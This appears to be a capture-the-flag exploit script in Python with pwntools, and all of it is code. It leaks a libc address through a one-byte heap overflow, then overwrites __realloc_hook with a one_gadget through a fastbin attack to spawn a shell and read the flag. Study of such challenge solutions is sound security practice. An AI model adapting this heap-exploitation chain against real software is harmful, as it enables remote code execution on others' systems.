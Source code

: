 ```python

def drop(index):
    choose(3)
    p.recvuntil('index: ')
    p.sendline(str(index))

def show(index):
    choose(4)
    p.recvuntil('index: ')
    p.sendline(str(index))
    p.recvuntil('content: ')
    return u64(p.recv(8))

create(0x18) #0  0x18==24
create(0x68) #1
create(0x68) #2
create(0x68) #3
create(0x68) #4

write(0,34,'a'*24+'\xe1') #0
drop(1) #1
create(0x68)

leak_addr=show(2)
print 'leak_addr:'+hex(leak_addr)
main_arena_offset=0x3c4b20
main_arena_start_offset=0x58
libc_base=leak_addr-main_arena_offset-main_arena_start_offset
print 'libc_base:'+hex(libc_base)
one_gadget_offset=[0x45226,0x4527a,0xf0364,0xf1207]
#one_gadget_offset=[0x45216,0x4526a,0xf02a4,0xf1147]
one_gadget_addr=libc_base+one_gadget_offset[1]
print 'one_gadget:'+hex(one_gadget_addr)
malloc_hook_addr=libc_base+libc.symbols['__malloc_hook']
realloc_hook_addr=libc_base+libc.symbols['__realloc_hook']
print 'malloc_hook_addr:'+hex(malloc_hook_addr)
print 'realloc_hook_addr:'+hex(realloc_hook_addr)

create(0x60) #5
drop(2)

write(5, 0x60, p64(realloc_hook_addr-0x1b)+'b'*0x58)

create(0x60) #5 = 2
create(0x60) #6 fake_chunk
__libc_realloc_addr=libc_base+libc.symbols['__libc_realloc']
payload=p64(one_gadget_addr)+p64(__libc_realloc_addr+2)
write(6,0x1C,'c'*8+'d'*3+payload)
#gdb.attach(p,'b calloc')
create(0x10)

p.sendline('ls')
p.sendline('cat flag')
p.interactive()
```



